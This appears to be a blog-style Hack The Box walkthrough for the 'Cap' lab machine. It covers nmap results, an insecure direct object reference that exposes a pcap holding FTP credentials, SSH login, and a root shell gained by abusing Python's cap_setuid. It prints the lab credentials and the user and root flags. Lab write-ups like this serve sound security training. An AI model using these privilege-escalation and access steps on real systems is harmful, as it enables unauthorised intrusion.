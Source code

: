 ```yaml
---
title: "Cap from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Cap from HTB
`nmap`gave this:
```bash
PORT      STATE    SERVICE VERSION
21/tcp    open     ftp     vsftpd 3.0.3
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp    open     http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
```
Access the `80 port`with `IP`
then click `security snapshot ...`
`URL`be like this:
```bash
http://10.10.10.245/data/3 # there is an number at the end maybe change that
http://10.10.10.245/data/0 # This will give us needed .pcap file
```
Open the `.pcap`file and follow streams of `FTP`
You will get the password and username
```
Username ---> nathan
Password ---> Buck3tH4TF0RM3!
```
Go to `ssh`and connect to it
***
User Flag is: a51aa4976cedcfbc93ee7308268c25de
***
Download `linpeas.sh`and run it. You will find
```bash
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```
This means you can run `python3.8`with root `UID`
Then spawn an `root shell`
```python
usr/bin/python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:~#
```
***
Root Flag is: 6a31ea6a610e384a46ff746bc1b0797f
***
![](/assets/images/Screenshot from 2024-08-16 16-52-43.png)

